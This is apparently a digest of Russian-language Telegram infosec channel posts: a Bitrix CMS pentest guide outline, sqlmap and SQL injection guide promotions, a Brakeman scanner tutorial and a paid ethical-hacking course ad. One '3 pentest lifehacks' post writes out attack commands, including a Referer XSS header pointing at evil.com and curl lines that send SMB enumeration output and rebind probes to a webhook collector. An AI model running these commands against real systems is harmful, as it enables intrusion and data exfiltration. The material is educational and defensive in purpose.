


# Social_engineering
`2025-11-27`

* https://pentestnotes.ru/notes/bitrix_pentest_full/#%D0%BE%D1%81%D0%BD%D0%BE%D0%B2%D1%8B-%D0%B1%D0%B8%D1%82%D1%80%D0%B8%D0%BA%D1%81%D0%BE%D0%BB%D0%BE%D0%B3%D0%B8%D0%B8
* https://pentestnotes.ru/notes/bitrix_pentest_full/#%D0%B2%D1%81%D1%82%D1%80%D0%BE%D0%B5%D0%BD%D0%BD%D1%8B%D0%B9-waf
* https://pentestnotes.ru/notes/bitrix_pentest_full/#%D0%BC%D0%BD%D0%BE%D0%B3%D0%BE%D1%81%D0%B0%D0%B9%D1%82%D0%BE%D0%B2%D0%BE%D1%81%D1%82%D1%8C
* https://pentestnotes.ru/notes/bitrix_pentest_full/#%D0%BE%D0%BF%D1%80%D0%B5%D0%B4%D0%B5%D0%BB%D0%B5%D0%BD%D0%B8%D0%B5-%D0%B2%D0%B5%D1%80%D1%81%D0%B8%D0%B8
* https://pentestnotes.ru/notes/bitrix_pentest_full/#%D0%BC%D0%BD%D0%BE%D0%B6%D0%B5%D1%81%D1%82%D0%B2%D0%B5%D0%BD%D0%BD%D1%8B%D0%B5-%D1%8D%D0%BD%D0%B4%D0%BF%D0%BE%D0%B8%D0%BD%D1%82%D1%8B-%D0%B4%D0%BB%D1%8F-%D0%B0%D0%B2%D1%82%D0%BE%D1%80%D0%B8%D0%B7%D0%B0%D1%86%D0%B8%D0%B8
* https://pentestnotes.ru/notes/bitrix_pentest_full/#%D0%BB%D0%B0%D0%B9%D1%84%D1%85%D0%B0%D0%BA-%D1%87%D0%B5%D1%80%D0%B5%D0%B7-burp
* https://pentestnotes.ru/notes/bitrix_pentest_full/#%D0%B8%D0%BD%D1%82%D0%B5%D1%80%D0%B5%D1%81%D0%BD%D1%8B%D0%B5-%D1%8D%D0%BD%D0%B4%D0%BF%D0%BE%D0%B8%D0%BD%D1%82%D1%8B
* https://pentestnotes.ru/notes/bitrix_pentest_full/#content-spoofing
* https://pentestnotes.ru/notes/bitrix_pentest_full/#account-enumeration
* https://pentestnotes.ru/notes/bitrix_pentest_full/#non-legitimate-registration
* https://pentestnotes.ru/notes/bitrix_pentest_full/#open-redirect
* https://pentestnotes.ru/notes/bitrix_pentest_full/#xss-%D1%83%D1%8F%D0%B7%D0%B2%D0%B8%D0%BC%D0%BE%D1%81%D1%82%D0%B8
* https://pentestnotes.ru/notes/bitrix_pentest_full/#ssrf
* https://pentestnotes.ru/notes/bitrix_pentest_full/#lfi
* https://pentestnotes.ru/notes/bitrix_pentest_full/#rce
* https://pentestnotes.ru/notes/bitrix_pentest_full/#rce-vote_agentphp-cve-2022-27228
* https://pentestnotes.ru/notes/bitrix_pentest_full/#rce-html_editor_actionphp
* https://pentestnotes.ru/notes/bitrix_pentest_full/#rce-landing
* https://pentestnotes.ru/notes/bitrix_pentest_full/#cve-2022-29268-rejected
* https://pentestnotes.ru/notes/bitrix_pentest_full/#bdu2024-01501
* https://pentestnotes.ru/notes/bitrix_pentest_full/#reflected-xss
* https://pentestnotes.ru/notes/bitrix_pentest_full/#local-file-read
* https://pentestnotes.ru/notes/bitrix_pentest_full/#waf-bypass
* https://pentestnotes.ru/notes/bitrix_pentest_full/#lpe
* https://pentestnotes.ru/notes/bitrix_pentest_full/#bitrix24
* https://pentestnotes.ru/notes/bitrix_pentest_full/#xss-bitrix-24
* https://pentestnotes.ru/notes/bitrix_pentest_full/#cve-2022-43959
* https://pentestnotes.ru/notes/bitrix_pentest_full/#cve-2023-1713
* https://pentestnotes.ru/notes/bitrix_pentest_full/#cve-2023-1714
* https://pentestnotes.ru/notes/bitrix_pentest_full/#cve-2023-1718
* https://pentestnotes.ru/notes/bitrix_pentest_full/#%D1%83%D1%8F%D0%B7%D0%B2%D0%B8%D0%BC%D1%8B%D0%B5-%D0%BC%D0%BE%D0%B4%D1%83%D0%BB%D0%B8
* https://pentestnotes.ru/notes/bitrix_pentest_full/#%D1%80%D0%B5%D0%B5%D1%81%D1%82%D1%80-%D1%83%D1%8F%D0%B7%D0%B2%D0%B8%D0%BC%D0%BE%D1%81%D1%82%D0%B5%D0%B9-%D1%81%D1%82%D0%BE%D1%80%D0%BE%D0%BD%D0%BD%D0%B8%D1%85-%D0%BC%D0%BE%D0%B4%D1%83%D0%BB%D0%B5%D0%B9
* https://pentestnotes.ru/notes/bitrix_pentest_full/#%D0%B4%D0%B8%D1%80%D0%B5%D0%BA%D1%82%D0%BE%D1%80%D0%B8%D1%8F-local
* https://pentestnotes.ru/notes/bitrix_pentest_full/#%D1%81%D1%82%D1%80%D1%83%D0%BA%D1%82%D1%83%D1%80%D0%B0-%D1%81%D0%B0%D0%BC%D0%BE%D0%BF%D0%B8%D1%81%D0%BD%D0%BE%D0%B3%D0%BE-%D0%BC%D0%BE%D0%B4%D1%83%D0%BB%D1%8F
* https://pentestnotes.ru/notes/bitrix_pentest_full/#aspro
* https://pentestnotes.ru/notes/bitrix_pentest_full/#%D0%B8%D0%BD%D1%82%D0%B5%D1%80%D0%BD%D0%B5%D1%82-%D0%BC%D0%B0%D0%B3%D0%B0%D0%B7%D0%B8%D0%BD%D1%8B
* https://pentestnotes.ru/notes/bitrix_pentest_full/#%D0%BA%D0%BE%D1%80%D0%BF%D0%BE%D1%80%D0%B0%D1%82%D0%B8%D0%B2%D0%BD%D1%8B%D0%B5-%D1%81%D0%B0%D0%B9%D1%82%D1%8B
* https://pentestnotes.ru/notes/bitrix_pentest_full/#%D0%BE%D1%82%D1%80%D0%B0%D1%81%D0%BB%D0%B5%D0%B2%D1%8B%D0%B5-%D1%81%D0%B0%D0%B9%D1%82%D1%8B
* https://pentestnotes.ru/notes/bitrix_pentest_full/#%D1%83%D1%81%D1%82%D0%B0%D1%80%D0%B5%D0%B2%D1%88%D0%B8%D0%B5-%D0%BC%D0%BE%D0%B4%D1%83%D0%BB%D0%B8
* https://pentestnotes.ru/notes/bitrix_pentest_full/#rce-by-insecure-deserialization
* https://pentestnotes.ru/notes/bitrix_pentest_full/#%D0%BF%D0%BE%D0%B8%D1%81%D0%BA-%D0%B8%D0%BD%D1%82%D0%B5%D1%80%D0%B5%D1%81%D0%BD%D1%8B%D1%85-%D0%B4%D0%B8%D1%80%D0%B5%D0%BA%D1%82%D0%BE%D1%80%D0%B8%D0%B9-%D0%B8-%D1%84%D0%B0%D0%B9%D0%BB%D0%BE%D0%B2
* https://pentestnotes.ru/notes/bitrix_pentest_full/#%D1%81%D0%BA%D0%B0%D0%BD%D0%B5%D1%80-%D0%BF%D0%BE%D0%B4-bitrix---huitrix
* https://pentestnotes.ru/notes/bitrix_pentest_full/#%D1%81%D1%82%D1%80%D1%83%D0%BA%D1%82%D1%83%D1%80%D0%B0-%D1%81%D0%BA%D0%B0%D0%BD%D0%B5%D1%80%D0%B0
* https://pentestnotes.ru/notes/bitrix_pentest_full/#fast-scan
* https://pentestnotes.ru/notes/bitrix_pentest_full/#full-scan
* https://pentestnotes.ru/notes/bitrix_pentest_full/#detect-version
* https://pentestnotes.ru/notes/bitrix_pentest_full/#entrance-finder
* https://pentestnotes.ru/notes/bitrix_pentest_full/#rce-modules
* https://pentestnotes.ru/notes/bitrix_pentest_full/#enum-bitrix-users
* https://pentestnotes.ru/notes/bitrix_pentest_full/#spawn-bitrix-user
* https://pentestnotes.ru/notes/bitrix_pentest_full/#detect-custom-modules
* https://pentestnotes.ru/notes/bitrix_pentest_full/#references
* https://pentestnotes.ru/notes/bitrix_pentest_full/#github
* https://pentestnotes.ru/notes/bitrix_pentest_full/#bdu
* https://pentestnotes.ru/notes/bitrix_pentest_full/#habr--telegraph
* https://pentestnotes.ru/notes/bitrix_pentest_full/#telegram
* https://pentestnotes.ru/notes/bitrix_pentest_full/#other
* https://t.me/+f3QUaCXnHwBlMWQy
* https://t.me/+owNymgMzqsg4ZDEy
* https://t.me/SE_VirusTotal_bot

<blockquote>
👨‍💻 Bitrix Ultimate Pentest Guide.

•  Автор этого материала собрал очень объемный гайд по пентесту CMS Bitrix, который включает в себя большое кол-во техник и различных методов. Вот содержание:

 - Основы битриксологии:
➡Встроенный WAF;
➡Многосайтовость.
 - Определение версии;
 - Множественные эндпоинты для авторизации:
➡Лайфхак через burp.
 - Интересные эндпоинты;
 - Content Spoofing;
 - Account Enumeration;
 - Non-legitimate registration;
 - Open Redirect;
 - XSS уязвимости;
 - SSRF;
 - LFI;
 - RCE:
➡RCE vote_agent.php (CVE-2022-27228);
➡RCE html_editor_action.php;
➡RCE Landing;
➡CVE-2022-29268 (Rejected).
 - BDU:2024-01501:
➡Reflected XSS;
➡Local File Read.
 - WAF Bypass;
 - LPE;
 - Bitrix24:
➡XSS bitrix 24;
➡CVE-2022-43959;
➡CVE-2023-1713;
➡CVE-2023-1714;
➡CVE-2023-1718.
 - Уязвимые модули:
➡Реестр уязвимостей сторонних модулей;
➡Директория /local/;
➡Структура самописного модуля;
➡Aspro;
➡Интернет-магазины;
➡Корпоративные сайты;
➡Отраслевые сайты;
➡Устаревшие модули;
➡RCE by Insecure deserialization;
 - Поиск интересных директорий и файлов.
 - Сканер под bitrix - “huitrix”:
➡Структура сканера:
➡Fast scan;
➡Full Scan;
➡Detect Version;
➡Entrance Finder;
➡RCE modules;
➡Enum Bitrix Users;
➡Spawn Bitrix User;
➡Detect custom modules.
 - References:
➡Github;
➡BDU;
➡Habr &amp; Telegra.ph;
➡Telegram;
➡Other.

➡ https://pentestnotes.ru/notes/bitrix_pentest_full

S.E. ▪️ infosec.work ▪️ VT
</blockquote>

---

# elliot_cybersec
`2025-11-13`

* https://codeby.net/threads/sqlmap-polnoye-rukovodstvo-2025-po-sql-in-yektsiyam-ot-osnov-do-obkhoda-waf.65032/

<blockquote>
🤒 SQLMAP: Полное руководство 2025 по SQL-инъекциям. От основ до обхода WAF | Привет, друг. На связи Эллиот.

Sqlmap — это не просто скрипт, а мощнейший комбайн, который автоматизирует всю рутину пентестера.

Данный материал — ваш полный, пошаговый гайд по sqlmap, собранный из актуальной практики и реального опыта, содержащий классическую базу, современные техники обхода и актуальные советы по защите.

Узнайте, как эффективно находить уязвимости, какие tamper-скрипты использовать для обхода WAF, и какие лайфхаки помогут вам не просто найти инъекцию, но и получить шелл на сервере.

⏺ Ссылка на чтиво

&#35;Sqlmap &#35;Пентест &#35;SQL &#35;Injection &#35;WAF &#35;Web &#35;Tools
</blockquote>

---

# cybersec_academy
`2025-11-13`

* https://t.me/cybersec_academy

<blockquote>
3 лайфхака для пентестинга

👋 Приветствую в мире цифровой безопасности!

Расскажу о трех полезных фишках при пентесте.

⏺XSS в заголовки через Referer + webhook-лог: проходит через CSP, фиксирует кражу куки/токена без JS.

GET /page HTTP/1.1
Host: target.example.com
Referer: https://evil.com/?xss&#61;

⏺Однострочный SMB-скан с enum4linux-ng + webhook-результат: Быстро собирает шары/юзеров, отправляет на webhook.

enum4linux-ng -A target.example.com | curl -s -X POST https://webhook.site/your-id --data-binary @-

➡️Защита: фильтровать Referer, отключить NTLM где не нужно, мониторить 445/tcp.

⏺DNS-rebind через короткое TTL + webhook-ping: обходит локальные ограничения, подтверждает доступ к internal.

echo &quot;127.0.0.1 target.internal&quot; &gt; /tmp/rebind
curl -s --resolve attacker.com:80:127.0.0.1 https://webhook.site/your-id -d &quot;rebind_success&#61;$(date)&quot;

➡️Защищаемся так: DNS с анти-rebind, проверка Host заголовка, запрет external DNS в internal.

ZeroDay | &#35;пентест
</blockquote>

---

# elliot_cybersec
`2025-11-11`

* https://codeby.net/threads/sql-in-yektsiya-na-praktike-poshagovyi-gaid-po-sqlmap-i-hashcat.65033/

<blockquote>
💉 SQL-инъекция на практике: пошаговый гайд по SQLMap и Hashcat | Привет, друг. На связи Эллиот.

SQL-инъекция (SQLi) — это не тёмная магия, а одна из самых известных уязвимостей, понимание которой — основа безопасности веб-приложений. 

Данный материал — твой прямой и понятный гайд по эксплуатации SQLi, от разведки до анализа пароля, собранный на простом и наглядном учебном примере.

— Рассмотрим как использовать SQLMap для автоматизации атаки, какие шаги предпринять для извлечения хешей, и как с помощью Hashcat превратить непонятную строку в реальный пароль.

⏺ Ссылка на чтиво

&#35;SQL &#35;Injection &#35;SQLMap &#35;Hashcat
</blockquote>

---

# elliot_cybersec
`2025-11-06`

* https://codeby.net/threads/metodika-veb-pentesta-poshagovyi-plan-poiska-uyazvimostei-v-prilozhenii-dlya-nachinayushchikh.85912/

<blockquote>
👩‍💻 Методика веб-пентеста: пошаговый план поиска уязвимостей в приложении для начинающих | Привет, друг. На связи Эллиот.

В данном материале пройдемся от основ до продвинутых методов поиска уязвимостей — от SQL-инъекций и XSS до файловой инклюзии. Пошагово пройдём через ключевые этапы — от сканирования портов до создания отчёта по проделанной работе.

— Узнайте, как использовать проверенные инструменты для пентеста, разобраться в уязвимостях и избежать типичных ошибок при тестировании. 

Автор также поделится методами для выявления скрытых сервисов и объяснит, как правильно интерпретировать результаты сканирования.

⏺ Ссылка на чтиво

&#35;Пентест &#35;Web &#35;SQL &#35;Injection &#35;XSS &#35;Scanning &#35;Vulnerability
</blockquote>

---

# cybersec_academy
`2025-11-05`

* https://github.com/presidentbeef/brakeman
* https://t.me/cybersec_academy

<blockquote>
Brakeman: статический сканер для Rails

👋 Приветствую в мире цифровой безопасности!

Поговорим о еще одном инструменте безопасности.

⏺Brakeman - статический сканер уязвимостей для Ruby on Rails. Находит SQL‑инъекции, XSS, unsafe mass assignment, command injection и прочие привычные неприятности 😬Приложение запускать не нужно.  Brakeman читает исходники и выдаёт готовые артефакты для ревью и CI.

⏺Brakeman парсит Rails‑код, сопоставляет потоки данных и сигнатуры уязвимостей и генерирует понятные отчёты. Самое то для локального скана, nightly‑job или как обязательная проверка в pre‑merge pipeline.

⏺И кстати работает с Rails от 2.3 до 8.x и легко встраивается в CI/CD, один запуск в pipeline и ты видишь все горящие проблемы ещё до мержа. HTML‑отчёт для дев‑ревью, JSON - для автоматизации и триажа.

⏺Ловите самые нужные команды: 

&#35; Установка через gem
gem install brakeman

&#35; Быстрый запуск в корне Rails
brakeman

&#35; Скан через Docker (цветной вывод)
docker run -v &quot;$(pwd)&quot;:/code presidentbeef/brakeman --color

&#35; HTML-отчёт
brakeman -o brakeman_results.html

&#35; Только высокоуровневые (High) предупреждения
brakeman -w3

&#35; Создать/редактировать список игнорируемых предупреждений
brakeman -I

ZeroDay | &#35;Инструмент
</blockquote>

---

# books_security_and_programming
`2025-11-04`

<blockquote>
Здравствуйте, дорогие друзья! Внимание!!!

Ноябрьская распродажа классического базового видеокурса - «Этичный взлом.», 3 дня, с 4-го по 6-е ноября включительно.

Скидка 84%, и итоговая цена в этот период составляет всего 4000 рублей.

            Плюс бонус: 12 моих книг:

            1. «Хакинг на JavaScript».
            2. «Хакерские инструменты на PHP8».
            3. «Заработок для хакера».
            4. «Capture the Flag (CTF). VulnHub 8 райтапов».
            5. «Cross Site Request Forgery».
            6. «Программирование на Go для начинающих».
            7. ««Программирование на С для начинающих».
            8. «Прохождение CTF Мистер Робот Практический курс».
            9. «Руководство по подготовке сертифицированного этичного хакера (CEH)».
            10. «Уязвимость SQL-инъекция. Практическое руководство для хакеров».
            11. «Уязвимость-Cross-Site-Scripting-XSS-Практическое-руководство».
            12. «Программирование на PHP8 для начинающих»
     

Предоставляю Вашему вниманию видеокурс, который состоит из 20-ти модулей. Курс ориентирован как для начинающих этичных хакеров, так и для более опытных специалистов.

Итого продолжительность: 41 час 14 минут.
Выжимка из моего 8-ми летнего опыта.

Стоимость: 4 000 рублей.
Отзывы вот тут: https://vk.com/topic-44038255_49120521
И вот тут: https://timcore.ru/otzyvy-o-moej-rabote/

            1 модуль — Видеокурс — «Пентест с помощью Kali Linux.» — 6 часов.
            2 модуль — Видеокурс — «Kali Linux для начинающих». — 7 часов.
            3 модуль — Видеокурс — «Тестирование на проникновение (пентест) с помощью Nmap, OpenVAS и Metasploit». — 3 часа 30 минут.
            4 модуль — Видеокурс — Уязвимости DVWA (Полное прохождение). — 3 часа 19 минут.
            5 модуль — Миникурс «Хакинг систем» ~ 1 час.
            6 модуль — Видеокурс — «SQL-Инъекция» — : 1 час 50 минут.
            7 модуль — Видеокурс: «Курс молодого бойца. Решение CTF.» — 1 час 15 минут.
            8 модуль — Миникурс. CTF. Web. Задания с Root-Me для не новичков. ~ 1 час.
            9 — 18 модуль. Видеокурс: «Хакинг bWAPP (buggy web application). Эксплуатация 100+ уязвимостей.» — 8 часов
           19 модуль - Электронная книга: «Хакинг с помощью искусственного интеллекта» ~ 7 часов.
           20 модуль - Курс: «ChatGPT для Этичных Хакеров и Пентестеров» ~ 4 часа.

В курсе мы рассмотрим инструменты для начинающего пентестера, и пройдемся по основным векторам атак на системы. Также взглянем и попрактикуемся с уязвимостями веб-приложения DVWA, и познакомимся с SQL-инъекциями. Также мы примем участие в CTF-соревнованиях на начальном и среднем уровне. Далее будет разбор 10-ти
категорий уязвимостей, по методологии OWASP Top-10. И в завершении Вы изучите два модуля по Искусственному интеллекту.

Итого продолжительность: 41 час 14 минут.

Стоимость: 4000 рублей.
Отзывы о курсе вот здесь: https://vk.com/topic-44038255_49120521
И вот тут: https://timcore.ru/otzyvy-o-moej-rabote/

Содержание вот тут: https://timcore.ru/kurs-jeticheskij-vzlom/

Для приобретения пишите по контакту: @timcore1
</blockquote>

---

